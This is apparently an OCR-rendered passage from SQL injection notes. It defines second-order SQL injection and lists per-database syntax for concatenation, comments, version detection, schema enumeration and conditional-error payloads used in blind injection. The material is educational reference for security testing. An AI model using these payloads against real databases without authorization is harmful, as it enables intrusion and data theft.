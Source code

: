 ## Second Order SQL injection

Sometimes a web application records data sent by a user and saves ot temporarily, afterwards, perhaps after a certain amount of time, it uses this user input without sanitizing it in an SQL Query. This is called a second order SQL injection and can be detected using [*Blind SQL injection with Out-Of-Band techniques*]{.spurious-link target="*Blind SQL injection with Out-Of-Band techniques"}.

## Tips & Tricks

### String concatenation

-   *Oracle* `'foo'||'bar'`
-   *Microsoft* `'foo'+'bar'`
-   *PostgreSQL* `'foo'||'bar'`
-   *MySQL* `CONCAT('foo','bar')`

### Substring

-   *Oracle* `SUBSTR('foobar', 4, 2)`
-   *Microsoft* `SUBSTRING('foobar', 4, 2)`
-   *PostgreSQL* `SUBSTRING('foobar', 4, 2)`
-   *MySQL* `SUBSTRING('foobar', 4, 2)`

### Comments

-   *Oracle* `--comment`
-   *Microsoft* `--comment` `/*comment*/`
-   *PostgreSQL* `--comment` `/*comment*/`
-   *MySQL* `--[space]comment` `/*comment*/` `#comment`

### Get Version

-   *Oracle* `SELECT banner FROM v$version` OR `SELECT version FROM v$instance`
-   *Microsoft* `SELECT @@version`
-   *PostgreSQL* `SELECT version()`
-   *MySQL* `SELECT @@version`

### Database Content

-   *Oracle* `SELECT * FROM all_tables` AND `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
-   *Microsoft* `SELECT * FROM information_schema.tables` AND `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
-   *PostgreSQL* `SELECT * FROM information_schema.tables` AND `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
-   *MySQL* `SELECT * FROM information_schema.tables` AND `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

-   *Oracle* `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
-   *Microsoft* `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
-   *PostgreSQL* `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
-   *MySQL* `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
